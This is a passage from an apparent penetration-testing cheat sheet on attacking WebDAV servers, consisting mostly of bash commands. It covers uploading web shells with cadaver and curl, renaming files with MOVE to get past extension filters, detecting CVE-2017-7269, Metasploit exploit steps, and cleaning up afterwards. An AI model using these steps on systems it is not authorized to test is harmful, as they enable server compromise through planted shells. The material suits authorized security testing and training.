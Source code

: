 9) Interactive upload with cadaver:
```bash
# If anonymous works, cadaver drops you into a DAV shell
cadaver $URL
# In the cadaver prompt:
# put shell.php
# ls
# quit
```

10) IIS-specific quick check (IIS 6.0 WebDAV RCE detection):
```bash
# Nmap NSE for IIS WebDAV ScStoragePathFromUrl (CVE-2017-7269)
nmap -p$RPORT --script http-iis-webdav-vuln $RHOST

# Metasploit (optional; only if within scope and applicable)
# msfconsole
# use exploit/windows/iis/iis_webdav_scstoragepathfromurl
# set RHOSTS $RHOST
# set RPORT $RPORT
# run
```

11) Clean up:
```bash
# Remove files if policy requires cleanup
curl -i -X DELETE $URL/test.txt
curl -i -X DELETE $URL/shell.php
curl -i -X DELETE $URL/rshell.php
```

---

## Practical tips
- WebDAV is often enabled only on a specific path (e.g., /webdav/, /dav/, /uploads/, /remote.php/webdav). Always test the correct location.
- Check methods at both root and the DAV path. PUT might be disabled on / but allowed on /webdav/.
- A 207 response to PROPFIND strongly indicates DAV. Presence of a “DAV:” header also signals DAV support.
- If upload of .php/.asp is blocked, try:
  - Upload .txt then MOVE to .php/.asp
  - Alternate extensions (.phtml, .shtml, .aspx)
- Destination in MOVE must be an absolute URL and may require the Host header to match vhost.
- Use davtest first; it quickly shows which extensions are writable/executable.
- On Windows/IIS, use .asp/.aspx shells. On Linux/Apache, use .php.
- If auth is required, test for weak/dictionary credentials before exploitation.
- Always remove test files and shells after validation, and document every step for reporting.

---

## Minimal cheat sheet (one-screen flow)
```bash
# Set target
RHOST=10.10.10.10; RPORT=80; SCHEME=http; DAV_PATH=/webdav/; URL=$SCHEME://$RHOST:$RPORT$DAV_PATH

# Find DAV/methods
nmap -sV -p$RPORT -Pn --script http-methods,http-webdav-scan,http-iis-webdav-vuln $RHOST
curl -i -X OPTIONS $URL
curl -i -X PROPFIND -H "Depth: 1" $URL

# Quick DAV write test
davtest -url $URL
echo test > test.txt; curl -i -T test.txt $URL/test.txt; curl -s $URL/test.txt

# Upload shell (PHP)
```